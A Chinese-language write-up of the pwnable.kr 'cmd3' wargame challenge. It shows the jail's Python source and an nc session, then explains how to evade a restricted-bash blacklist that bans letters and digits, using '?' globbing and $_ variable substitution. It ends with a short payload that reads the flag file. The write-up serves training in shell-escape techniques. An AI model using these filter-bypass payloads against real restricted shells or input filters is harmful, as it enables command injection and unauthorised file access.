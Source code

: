```python
                                print 'caught by filter!'
                                sys.stdout.flush()
                                raise 1

                        os.system('echo "{0}" | base64 -d - | env -i PATH=jail /bin/rbash'.format(cmd.encode('base64')))
                        sys.stdout.flush()
        except:
                os.system('rm flagbox/'+filename)
                os._exit(0)

```

```bash
cmd3@pwnable:~$ nc 0 9023
total 5840
drwxr-x---   5 root cmd3_pwn    4096 Mar 15  2016 .
drwxr-xr-x 115 root root        4096 Dec 22 08:10 ..
d---------   2 root root        4096 Jan 22  2016 .bash_history
-rwxr-x---   1 root cmd3_pwn    1421 Mar 11  2016 cmd3.py
drwx-wx---   2 root cmd3_pwn   20480 Apr 13 22:58 flagbox
drwxr-x---   2 root cmd3_pwn    4096 Jan 22  2016 jail
-rw-r--r--   1 root root     5931695 Apr 13 23:50 log
-rw-r-----   1 root root         764 Mar 10  2016 super.pl
total 8
drwxr-x--- 2 root cmd3_pwn 4096 Jan 22  2016 .
drwxr-x--- 5 root cmd3_pwn 4096 Mar 15  2016 ..
lrwxrwxrwx 1 root root        8 Jan 22  2016 cat -> /bin/cat
lrwxrwxrwx 1 root root       11 Jan 22  2016 id -> /usr/bin/id
lrwxrwxrwx 1 root root        7 Jan 22  2016 ls -> /bin/ls
your password is in flagbox/V8Y4PAMYSB44V6T9OYA64J9HCLZET5AM
cmd3$
```

总结下来就是，在以下条件的限制中，读取到 `flagbox/{32个随机字符的文件名}` 内容

- rbash
- 黑名单  `` ` !&|"\'* ``
- 可见字符，且不为字母与数字

条件限定的特别死，且由于字母数字都被ban掉了，但是仍然可以使用 `?` 来访问到文件，如 `????/?? -> jail/ls [jail/id], ????/??? -> jail/cat`

然后需要考虑如何完成一次完整的命令，由于rbash的存在，不能存在 `/`，需要将命令给取出来，考虑通过构造环境变量来完成，使用 `$_` 来获取上一次执行的命令，再使用 `${}` 变量替换，在其中使用 `#` 来去掉左边的字符，如在环境中实现执行 `ls` 命令

![](/img/pwnable-kr-study/2021414-1.png)

使用同样的方法获取到cat, `????/???;__=${_#?????}`，同时由于使用的是cat，所以可以使用 `<`，完美避开了黑名单中空格的问题，接下来需要考虑的就是如何取到flag文件的文件名

由于现在已经可以使用cat命令，所以考虑将文件名写入某个文件，将其cat出来然后再cat实现，可是当前目录下是没权限写的，那么可以考虑写入到tmp目录，为了避免读取到一些奇怪的文件，所以建一个目录比较好，由于filter函数的关系，可以创建一个全是下划线的文件夹 (tmp已经有好多个这种文件夹了...。索性删了一些建自己的)，然后nc后将flagbox中的文件名写入到某个文件中，这样一来就可以构造出payload

```bash
????/???        # jail/cat
__=${_#?????}   # 获得cat
___=$($__</???/__/?????) # cat /tmp/__/zzzzz
$__<$___;       # cat flagbox/xxxxx
```

然后将读取到的password直接输入便可以得到flag

![](/img/pwnable-kr-study/2021414-2.png)